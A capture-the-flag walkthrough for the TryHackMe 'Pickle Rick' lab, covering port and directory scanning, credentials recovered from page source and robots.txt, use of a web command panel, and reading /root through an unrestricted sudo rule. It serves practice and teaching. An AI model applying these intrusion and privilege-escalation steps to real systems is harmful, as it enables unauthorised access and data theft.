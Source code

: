 ```yaml
---
layout: page
title: Pickle Rick CTF
parent: tryhackme
grand_parent: Practice Labs
---
```

# {{ page.title }}
{: .no_toc }

<details open markdown="block">
  <summary>
    Table of contents
  </summary>
  {: .text-delta }
- TOC
{:toc}
</details>

---
link: https://tryhackme.com/room/picklerick

Difficulty: Easy

## Recon
Have to answer 3 questions:
- What is the first ingredient that Rick needs?
- What is the second ingredient in Rick’s potion?
- What is the last and final ingredient?

There is a hint hidden in the source code of the main webpage: `Username: R1ckRul3s`
## Scanning
What services are running on the target?
`nmap -sCV -v -oN tcp <IP>`
- Scan for service versions & default scripts, with verbose, output to file `tcp`

| Port   | Service               | Version       | Description                                        |
| ------ | --------------------- | ------------- | -------------------------------------------------- |
| 80/tcp | Apache httpd (Ubuntu) | 2.4.18        | Apache web server supporting GET HEAD POST OPTIONS |
| 22/tcp | ssh                   | OpenSSH 7.2p2 | SSH                                                |

What can we find out about the ssh running?
`nmap -sV --script="ssh*" -oN ssh-scripts-results <IP>`
- Only publickey auth is allowed

Running `gobuster` revealed:
```
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/assets (Status: 301)
/robots.txt (Status: 200)
/server-status (Status: 403)
```

- The assets directory just shows the images & bootstrap & JQuery js files
- The robots.txt contains the string: `Wubbalubbadubdub`

Running `nikto -h <IP>` revealed the existence of a `/login.php`

## Exploitation
Navigating to `/login.php` and entering the credentials we have found:
```
Username: R1ckRul3s
Password: Wubbalubbadubdub
```

We are entered into a command panel. The command panel seems to use bash.

`ls` in the command panel gives:
```
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

navigating to those files reveals the first ingredient.

Realising we can navigate up with `ls` we now have access to freely explore the file system.

Running `uname -a` give us some system details:
`Linux ip-10-10-224-157 4.4.0-1072-aws #82-Ubuntu SMP Fri Nov 2 15:00:21 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux`

Searching in the `/home/rick` dir we find the second ingredient in a file that can be dumped with  the `less` as `cat` is disabled.

`cd ../../../; ls -al; pwd`

`less /etc/*-release`
```
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.5 LTS"
NAME="Ubuntu"
VERSION="16.04.5 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.5 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial
```

Useful command to search for all files in home dir: `ls -alhR /home`

doing a `sudo -l` its revealed we can run any command without the requirement of a password:
```
Matching Defaults entries for www-data on ip-10-10-224-157.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-224-157.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

running an `sudo ls -alhR /root` reveals the final key in `/root/3rd.txt`